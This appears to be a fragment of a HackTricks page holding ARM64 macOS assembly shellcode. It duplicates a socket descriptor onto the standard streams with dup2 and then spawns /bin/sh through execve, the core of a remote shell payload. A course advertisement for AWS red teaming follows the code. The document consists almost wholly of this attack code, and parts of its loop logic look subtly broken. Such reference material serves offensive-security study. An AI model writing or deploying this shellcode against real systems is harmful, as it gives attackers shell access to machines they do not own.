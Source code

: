 ```armasm

call_dup:
    // dup(s, 2) -> dup(s, 1) -> dup(s, 0)
    mvn  x0, x3
    lsr  x2, x2, #1
    mov  x1, x2
    mov  x16, #90
    svc  #0x1337
    mov  x10, xzr
    cmp  x10, x2
    bne  call_dup

call_execve:
    // execve("/bin/sh", 0, 0)
    mov  x1, #0x622F
    movk x1, #0x6E69, lsl #16
    movk x1, #0x732F, lsl #32
    movk x1, #0x68, lsl #48
    str  x1, [sp, #-8]
    mov	 x1, #8
    sub  x0, sp, x1
    mov  x1, xzr
    mov  x2, xzr
    mov  x16, #59
    svc  #0x1337
```

<details><summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>
